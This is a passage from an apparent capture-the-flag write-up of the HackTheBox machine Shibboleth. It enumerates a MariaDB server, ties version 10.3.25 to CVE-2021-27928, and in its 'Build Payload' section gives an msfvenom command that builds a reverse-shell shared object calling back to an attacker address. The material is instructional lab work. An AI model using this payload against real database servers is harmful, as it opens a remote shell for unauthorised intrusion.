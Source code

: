     Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    MariaDB [(none)]>



The only interesting DB is zabbix:



    MariaDB [(none)]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | zabbix             |
    +--------------------+
    2 rows in set (0.001 sec)



It has a lot of tables, but nothing seems interesting there.

### CVE-2021-27928

#### Identify

On connecting to MySQL/MariaDB, the version string is printed. Googling
for "10.3.25 MariaDB exploit", there's a lot of links about
CVE-2021-27928:

![](/img/image-20220331083231127.png)

This CVE was big in the news just before Shibboleth came out. The [top
link](https://github.com/Al1ex/CVE-2021-27928) from Al1ex and
Diefunction has a nice summary:

> Exploit Title: MariaDB 10.2 /MySQL - 'wsrep_provider' OS Command
> Execution Date: 03/18/2021 Exploit Author: Central InfoSec Version:
> MariaDB 10.2 before 10.2.37 10.3 before 10.3.28 10.4 before 10.4.18
> 10.5 before 10.5.9 Percona Server through 2021-03-03; and the wsrep
> patch through 2021-03-03 for MySQL Tested on: Linux CVE :
> CVE-2021-27928

Shibboleth's version (10.3.25) should be vulnerable according to that.

#### Build Payload

To exploit this CVE, I'll need a shared object (Linux's version of a
DLL), which I can create with `msfvenom`:



    oxdf@hacky$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f elf-so -o rev.so
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 74 bytes
    Final size of elf-so file: 476 bytes
    Saved as: rev.so
